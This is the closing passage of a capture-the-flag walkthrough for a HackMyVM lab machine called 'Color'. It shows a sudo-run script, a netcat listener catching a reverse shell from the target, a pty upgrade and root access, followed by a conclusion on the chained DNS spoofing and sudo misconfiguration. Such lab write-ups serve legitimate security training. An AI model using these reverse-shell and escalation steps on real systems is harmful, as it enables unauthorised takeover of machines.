 ```bash
purple@color:~$ sudo /attack_dir/ddos.sh 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    44  100    44    0     0      2      0  0:00:22  0:00:15  0:00:07    10
```

If we return to our listener, we will notice a reverse connection from the target. We have obtained access to the system as the root user and we can use this to read all the flags on the system.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.28] 46968
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@color:/home/purple# ls /root
ls /root
root.txt
```

## Conclusion

Congratulations! In this walkthrough, you have utilised your knowledge of steganography to extract a user's password hidden in an image. Finally, you achieve a complete host compromise by leveraging a user's sudo right and the DNS spoofing attack. This machine was designed to strengthen your understanding of how attackers may chain different vulnerabilities and misconfiguration to achieve full host compromise thereby causing negative effects to an organisation. Thank you for following up on this walkthrough.

